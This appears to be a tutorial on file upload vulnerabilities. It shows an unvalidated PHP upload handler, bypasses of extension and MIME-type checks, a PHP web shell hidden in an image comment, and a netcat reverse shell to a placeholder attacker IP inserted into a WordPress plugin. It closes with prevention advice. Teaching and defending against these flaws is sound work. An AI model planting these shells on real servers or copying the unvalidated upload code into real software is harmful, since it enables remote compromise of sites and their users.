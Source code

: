 # File Upload Vulnerabilities

File uploads are common features in web applications. Unfortunately, this presents a risk because it can introduce a security issue, especially if the upload mechanism fails to validate files before uploaded or executed on the system.

Some extensions to this are the contact forms on a page, that allow uploads / attachments. The most important aspect of this though, is that the ability to upload a malicious file, means it only becomes necessary to execute on the target system.

## File Upload Vulnerabilities in Forms

Lets look at some security bugs in upload forms. 
No validation:

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="upload.php" method="post" enctype="multipart/form-data">
      Select file to upload:
      <input type="file" name="fileToUpload" id="fileToUpload">
      <input type="submit" name="Upload File" id="submit">
    </form>
  </body>
</html>
```

The `form action` specifies the script that will handle the file upload after submitting. 
The `upload.php` looks like this:

```php
# Receives a POST, saves the file with a random name to a temp directory specified in the php.ini which defaults to /tmp. 
# PHP populates a global array with info about the file - array[1] is $_FILES, and each element holds an attribute. 
<?php
  $upload_path = "/var/www/html/fileupload/uploads/";
$upload_path = $upload_path . basename($_FILES['fileToUpload']['name']);

if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $upload_path)) {
  echo "The file " . basename($_FILES['fileToUpload']['name']) . " has been uploaded";
} else {
  echo "There was an error uploading the file, please try again";
}
?>
```

This completes an upload form but there is no validation which means anything can be uploaded, to include malicious files / scripts. These files are also stored in the web root directory, which means they are accessible to everyone. A simple reverse shell can be uploaded, and facilitate remote code execution. 

### Validating File Extension

First, developers might use a blocklist to prevent specific file extensions from being uploaded. With a blocklist, the PHP script compares with a list of prohibited extensions.  Unfortunately there are tons of extensions, and it would need to be continually managed. Further, we can just save a file as a different type of PHP extension that isn't blocked, like `php4`, `pht`, `phtml`. 

### MIME-type validation

Another method to validate file uploads is by checking the MIME-type - `Multipurpose Internet Mail Extensions`. 
This typically is based on using an allowlist approach, and only accepting file uploads, such as `image/jpeg`. If the MIME type of the uploaded file is not accepted, an error will be sent back that it's not allowed. 
Unfortunately, `allowlist` is also easy to bypass for attackers.

### Modifying Content Headers

Using a tool like Burp suite, we can modify the MIME-type header before it is sent to the server for validation.
First, configure Burpsuite - `Preferences -> Advanced -> Network -> Connection -> Settings`. 
Choose `Manual Proxy Configuration` - set to `127.0.0.1:8080`. 
Create a temporary project with Burp defaults - activate the `Proxy` tab, and ensure intercept is turned on. 

Now we can upload our file, and check Burp. 
The identified file is detected as `application/x-php` - but we can modify the content type in Burpsuite to `image/jpeg`, and see the file is successfully uploaded. 

### Validating Images with GetImageSize()

When called on a valid image file, `getimagesize()` returns the size of an image, or `FALSE` if not an image. 
While image files may not seem like a threat, they can contain an embedded threat, which has a payload that can still be exploited. 
We can modify a regular image with an image editor such as `GIMP` (GNU Image Manipulation Program). 

```bash
apt-get install gimp
https://www.gimp.org
gimp [file]
```

Then we can select `Image Properties` - select the `Comment` tab, and insert web shell code:
`<?php echo shell_exec($_GET['cmd']); ?>`

We can now save and export the file. Once uploaded, we can access it via:
`127.0.0.1/fileupload/uploads/logo.jpg.php?cmd=id`

### Injecting Shellcode in Plugin Files

Some web applications use plugin systems, such as Wordpress. In this section, we will inject reverse shell code in a plugin file, upload the plugin, and then receive a shell.

### Prepping the Plugin

First download a plugin (any will do). Once downloaded, unzip the archive, and find the `php` file likely to be executed. 
In the download manager plugin, we find `wpdm-functions.php`. We edit the file and add the following code:

```bash
shell_exec("nc [Attack IP] [port] -e /bin/bash");
```

We can then add a listener on our box:
```bash
nc -lvp
```

Lastly, we can upload and install the plugin, then activate. 
Once all steps have been completed, you should have a live shell to the target. 

### Preventing Arbitary / Unrestricted File Vulnerabilities

It's surprising how common this might be, due to lack of validation and sanitization.

* Prevent files from being executed in the upload directory via file permissions, .htaccess,  firewalls
* Sanitize file names to ensure they don't contain prohibited extensions.
* Use a WAF to prevent file upload vulnerabilities and block access to directories / files
* Limit max file size
* Prevent files from being overwritten with the same name
* Prevent file upload from unauth'd users
* Randomize file names on upload
* Prevent files from being executed on upload to the Web Application 
* Store uploaded files outside the document root
* Scan uploaded files with a malware/virus scanner.
* Use allowlisting on file extensions and MIME-types. While they can still be bypassed, it limits the opportunity.
* Prevent execution on double file extensions
* Use simple error messages on failed file upload attempts that do not expose info